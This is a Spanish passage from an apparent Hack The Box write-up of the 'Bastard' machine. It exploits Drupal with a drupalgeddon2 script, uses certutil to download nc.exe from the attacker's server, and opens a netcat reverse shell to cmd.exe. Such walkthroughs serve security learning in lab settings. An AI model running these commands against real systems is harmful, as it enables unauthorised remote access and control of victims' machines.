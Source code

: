 Listos, ejecutémoslo contra el recurso:

```bash
❱ ruby drupalgeddon2.rb http://10.10.10.9
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_drupalgeddonRBexploit_rce1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, el programa nos indica que existe la vuln y tiene posibilidad de ejecutar comandos, después de eso hace unas pruebas para escribir un archivo en el sistema yyyyy finalmente obtenemos la **Fake Shell**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_drupalgeddonRBexploit_rce2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Liiiiistones, "tamos" en la máquina, pero medio feo estar en una **Fake Shell**, así que subamos el binario `nc.exe` y entablémonos una Reverse Shell:

Nos posicionamos en la ruta donde esté el binario y levantamos un servidor web:

```bash
❱ python3 -m http.server
```

Y ahora desde la **Fake** le decimos que busque en ese servidor web el archivo `nc.exe` y lo suba a nuestra ruta actual:

```bash
drupalgeddon2>> certutil.exe -f -urlcache -split http://10.10.14.8:8000/nc.exe nc.exe
```

Y ya tendríamos el binario en la máquina:

```powershell
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

...
10/08/2021  25:25             45.272 nc.exe
...
```

Ahora nos ponemos en escucha por algún puerto, en mi caso el `4433`:

```bash
❱ nc -lvp 4433
```

Y en la máquina víctima ejecutamos:

```bash
drupalgeddon2>> .\nc.exe 10.10.14.8 4433 -e cmd.exe
```

Donde le indicamos que envíe una petición a nuestro listener y una vez se entable la conexión nos ejecute `cmd.exe`, o sea una terminal **CMD**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_iusrRevSH_DONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>
